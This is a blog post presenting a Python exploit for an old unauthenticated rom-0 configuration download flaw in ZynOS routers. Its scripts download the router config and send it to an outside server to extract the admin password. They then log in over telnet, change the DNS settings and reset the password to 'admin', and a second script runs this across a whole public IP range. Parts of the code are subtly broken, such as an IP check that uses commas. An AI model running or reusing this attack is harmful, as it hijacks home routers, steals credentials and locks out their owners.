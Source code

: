 ```yaml
---
title: "zynOS rom-0 fetching"
date: 2024-01-10T11:32:59-05:00
draft: false
type: "post"
---
```


i was poking around old vulnerabilities, that specifically affected home networks and i found this (now patched) exploitable vulnerability affecting zynOS routers. the vulnerability allows an attacker to download the router's configuration (ROM-0 file) without any type of authentication. this file could then be later decompressed to expose the router's admin password, wifi password, etc.

[the program](https://github.com/bilals12/zyn-rom0) i wrote attempts to connect to a valid host to download said ROM-0 file, extracts specific data from it (using regex), then logs back into the same host via telnet to change DNS settings, set a system password, and log out. it's a pretty simple program, and its use-case is probably limited nowadays but it was a fun exercise nonetheless. as always, it's for educational purposes only!

the main script can be broken down into 8 steps:

1. **set default socket timeout**: `socket.setdefaulttimeout(4)` sets a default timeout for new socket objects to 4 seconds. this affects all subsequent socket operations.

2. **registering openers**: `register_openers()` initializes and configures libraries to handle multipart/form-data uploads.

3. **file handling**: the script attempts to remove a file named "rom-0" from the current directory, as a cleanup step from previous runs.

4. **downloading file**: the script constructs a URL using a command-line argument (`sys.argv[1]`) and downloads a file named "rom-0" from this URL. requires a valid host to be passed as an argument!

5. **uploading the file**: it then uploads this file to a specific URL (`http://198.61.167.113/zynos/decoded.php`). this server is intended to process/analyze the uploaded file.

6. **extracting information**: the script uses regex to extract certain data from the response received after uploading the file.

7. **establishing telnet connection**: it attempts to establish a telnet connection to the same host from which the "rom-0" file was downloaded.

8. **sending commands via telnet**: the extracted data (hopefully a password) is used to login via telnet. the script then executes several commands on the remote host.

```python
import urllib2
import urllib
import re
import sys
import telnetlib
import socket
import os
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

# set default timeout for socket ops to avoid indefinite hang
# improves reliability of network ops
socket.setdefaulttimeout(4)

# register openers for multipart/form-data upload
# required for handling file uploads
register_openers()

# try to remove file "rom-0" in current directory (if it exists)
# cleanup step to ensure script always works with latest data
try:
	os.remove("rom-0")
except OSError:
	pass #ignores error if file doesn't exist

# main script
try:
	# read host IP from command line arg
	if len(sys.argv) < 2:
		print("usage: python script.py [host_ip]")
		sys.exit(1)

	host = str(sys.argv[1])

	# validate host IP format
	if not re.match(r'^\d{1,3}(\,\d{1,3}){3}$', host):
		print("[!] invalid IP address format [!]")
		sys.exit(1)

	# download "rom-0" from provided host
	urllib.urlretrieve("http://" + host + "/rom-0", "rom-0")

	# using context manager for file ops to ensure proper closure of the file
	with open("rom-0", 'rb') as f:
		datagen, headers = multipart_encode({"uploadedfile": f})

		# send POST request with file to specific server for processing
		request = urllib2.Request("http://198.61.167.113/zynos/decoded.php", datagen, headers)
		response = urllib2.urlopen(request).read()

		# extract specific data (password) using regex
		match = re.search('rows=10>(.*)', response)
		if match:
			found_password = match.group(1)
		else:
			print("[!] password not found in response [!]")
			sys.exit(1)

	# establish telnet connection to target host
	tn = telnetlib.Telnet(host, 23, 3)
	tn.read_until("Password: ")
	tn.write(found_password + "\n")

	# executing commands on target host
	tn.write("set lan dhcpdns 8.8.8.8\n")
	tn.write("sys password admin\n")
	print(host + " [^-^] success! [^-^]")

	# exit telnet sesh
	tn.write("exit\n")

except Exception as e:
	# errors
	print(f"[!] an error occurred: {e} [!]")
	print(host + " [:(] offline/inaccessible [:(]")
```

running `attack.py` simply peforms the actions of the main script over a specified target range. 

```python
import subprocess
from netaddr import IPNetwork

# define range of IP addresses to iterate over
ip_range = '41.108.48.1/24'

# iterate over each IP in the range
for ip in IPNetwork(ip_range):
	# execute script.py
	command = ["python", "script.py", str(ip)]

	# execute command using subprocess
	subprocess.run(command)
```

